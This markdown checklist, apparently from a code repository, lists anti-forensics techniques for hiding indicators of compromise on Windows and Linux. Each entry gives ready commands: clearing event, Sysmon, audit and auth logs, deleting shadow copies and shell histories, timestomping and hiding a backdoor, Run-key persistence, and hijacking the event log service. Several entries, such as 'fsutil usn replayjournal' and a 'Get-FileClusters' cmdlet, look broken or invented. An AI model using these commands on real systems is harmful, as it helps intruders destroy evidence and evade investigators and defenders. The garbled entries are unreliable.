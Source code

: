 # IOC Hiding Techniques

- [ ] **Clearing Windows Event Logs**  
  ```powershell
  wevtutil cl Application
  wevtutil cl System
  wevtutil cl Security
  ```

- [ ] **Removing Sysmon Logs**  
  ```powershell
  Remove-Item -Path "C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx" -Force
  ```

- [ ] **Clearing Windows Firewall Logs**  
  ```powershell
  wevtutil cl "Microsoft-Windows-Windows Firewall With Advanced Security/Firewall"
  ```

- [ ] **Wiping Security-Event Registry Channels**  
  ```powershell
  reg delete "HKLM\SYSTEM\CurrentControlSet\Services\EventLog\Security" /f
  ```

- [ ] **Disabling and Clearing Audit Policies**  
  ```cmd
  auditpol /set /subcategory:* /success:disable /failure:disable
  auditpol /clear /y
  ```

- [ ] **Deleting Prefetch Files**  
  ```cmd
  del C:\Windows\Prefetch\* /F /Q
  ```

- [ ] **Deleting Volume Shadow Copies**  
  ```cmd
  vssadmin delete shadows /all /quiet
  ```

- [ ] **Wiping the NTFS USN Journal**  
  ```cmd
  fsutil usn deletejournal /N C: /quiet
  ```

- [ ] **Zero-filling Free Space (MFT Artifact Removal)**  
  ```cmd
  sdelete -z C:
  ```

- [ ] **Flushing Windows DNS Cache**  
  ```cmd
  ipconfig /flushdns
  ```

- [ ] **Clearing Windows ARP Cache**  
  ```cmd
  arp -d *
  ```

- [ ] **Clearing Bash History**  
  ```bash
  history -c && history -w
  rm ~/.bash_history
  ```

- [ ] **Clearing Zsh History**  
  ```bash
  : > ~/.zsh_history
  unset HISTFILE
  ```

- [ ] **Clearing PowerShell History**  
  ```powershell
  Remove-Item (Get-PSReadlineOption).HistorySavePath -Force
  Set-PSReadlineOption -HistorySaveStyle SaveNothing
  ```

- [ ] **Truncating Linux Auth & Syslog**  
  ```bash
  truncate -s 0 /var/log/auth.log /var/log/syslog
  ```

- [ ] **Stopping auditd & Deleting Its Logs**  
  ```bash
  systemctl stop auditd
  rm -f /var/log/audit/audit.log
  systemctl start auditd
  ```

- [ ] **Vacuuming Systemd Journal Logs**  
  ```bash
  journalctl --rotate
  journalctl --vacuum-time=1s
  ```

- [ ] **Timestomping File Timestamps**  
  ```bash
  # Linux
  touch -d "2023-01-01 00:00:00" /path/to/malicious.exe

  # Windows PowerShell
  (Get-Item C:\Tools\backdoor.exe).LastWriteTime = '2023-01-01 00:00:00'
  ```

- [ ] **Clearing Shell Session Records**  
  ```bash
  rm -rf ~/.zsh_sessions/*   # Zsh session logs
  ```

- [ ] **Wiping Login Records (wtmp/btmp/lastlog)**  
  ```bash
  > /var/log/wtmp
  > /var/log/btmp
  > /var/log/lastlog
  ```

- [ ] **Transactional NTFS Delete**  
  ```powershell
  Start-Transaction
  Remove-Item -Path C:\Windows\System32\winevt\Logs\Security.evtx -Force -Transacted
  Complete-Transaction
  ```

- [ ] **Shadow Volume Mount Trick**  
  ```cmd
  mklink /J C:\Temp\AVHShadow \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\winevt\Logs
  del C:\Temp\AVHShadow\Security.evtx /Q
  ```

- [ ] **Alternate Data Stream (ADS) Stashing**  
  ```cmd
  type backdoor.exe > C:\Windows\System32\winlogon.exe:hidden_payload.exe
  ```

- [ ] **Unicode-Null Registry Key Padding**  
  ```reg
  reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\Updater`0" /ve /d "C:\Tools\svc.dll" /f
  ```

- [ ] **Event Log Service Binary Hijack**  
  ```cmd
  sc config eventlog binPath= "C:\Windows\System32\rundll32.exe C:\Tools\dummy.dll,ServiceMain"
  net stop eventlog & net start eventlog
  ```

- [ ] **WMI Repository Reset (Clears WMI-Based Audits)**  
  ```cmd
  net stop winmgmt /y
  rd /S /Q "%windir%\System32\wbem\Repository"
  net start winmgmt
  ```

- [ ] **On-Idle Scheduled Task Log Cleanup**  
  ```cmd
  schtasks /Create /SC ONIDLE /I 1 /TN "SysMaintenance" /TR "wevtutil cl Security"
  ```

- [ ] **In-Memory Patch of EventWrite Calls**  
  ```powershell
  # Conceptual: Inject into EventLog service then Write-ProcessMemory to patch EventWrite to RET
  ```

- [ ] **Perfmon Counter Log Overwrite**  
  ```cmd
  logman create counter MyCover /f bin --max 1MB -o "C:\Windows\System32\winevt\Logs\Security.evtx" \Processor(_Total)\% Processor Time
  logman start MyCover
  ```

- [ ] **USN Journal Replay “Wipe”**  
  ```cmd
  fsutil usn replayjournal C: "00000001-00000000"
  ```

- [ ] **DLL Proxying in Sysmon**  
  ```powershell
  Copy-Item C:\Windows\System32\xmllite.dll C:\Tools\Sysmon\xmllite.dll
  # Build a proxy DLL that filters EventWrite calls before passing to real DLL
  ```

- [ ] **Cluster-Aligned File Carving**  
  ```powershell
  $clusters = Get-FileClusters C:\Windows\System32\winevt\Logs\Security.evtx
  foreach($c in $clusters){ fsutil file createNew C:\dummy\$c.bin 4096 }
  ```

